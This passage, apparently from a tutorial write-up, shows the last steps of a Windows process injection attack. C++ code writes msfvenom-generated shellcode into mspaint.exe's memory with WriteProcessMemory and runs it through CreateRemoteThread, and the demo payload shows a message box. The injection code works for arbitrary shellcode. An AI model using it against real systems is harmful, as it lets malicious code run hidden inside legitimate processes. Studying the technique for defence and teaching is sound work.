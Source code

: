 In this step we write the shellcode to the allocated memory in "mspaint.exe" by using function "WriteProcessMemory" API function which takes 
5 parameters

1. hProcess is a handle to a "mspaint.exe" process.
2. allocated_mem is the memory that we allocated for our shellcode in the "mspaint.exe" process.
3. shellcode malicious code that we created in the above steps from the Metapreter.
4. sizeOf(shellcode) the size of the shellcode which we wants to inject in "mspaint.exe" process.
5. NULL for the number of bytes if the function succeeds we leave it to NULL

```c++
            // Write shellcode to the allocated memory in `mspaint.exe`
            WriteProcessMemory(hProcess, allocated_mem, shellcode, sizeof(shellcode), NULL);
```

# 4. Execute the shellcode from the MS Paint process

In this final step we create the threat to execute the injected Shellcode using the "CreateRemoteThread" API function which takes the same parameter of the create threat in addition to the "hProcess" which is the handle to the MS Paint process. then we use "WaitForSingleObject" API function to pause the execution of the program until threat returns and then we use "VirtualFreeEx" function to free the allocated memory that we created for MS paint application. and finally we close the handle to
the threat using "CloseHandle" function and then break the loop.

```cpp
            // Create a thread to execute shellcode
            HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)allocated_mem, NULL, 0, NULL);

            if (hThread == NULL) {

                printf("Falied to obtain handle to process: %ul\n", GetLastError());

                return 1;
            }
            // Halt execution until thread returns
            WaitForSingleObject(hThread, INFINITE);
            // Free allocated memory in `mspaint.exe`
            VirtualFreeEx(hProcess, allocated_mem, 0, MEM_RELEASE);
            // Close the handle to the created thread
            CloseHandle(hThread);
            // Close the handle to `mspaint.exe` process
            CloseHandle(hProcess);

            break;
        }
```

# Running and tracking of the Process Injection attack

After successfully create a Process injection attack, first we open up the "mspaint.exe" so that the process is created and running we can track the process using "Process Hacker" or "Task Manager" tools under "explorer.exe" process and then run and execute our program we get the output on the console with the memory allocated at address, and the shellcode is written to allocated memory in the "mspaint.exe", as a result the popup messagebox "Shellcode by msfvenom" is showing as an output then the "mspaint.exe" application crashed.
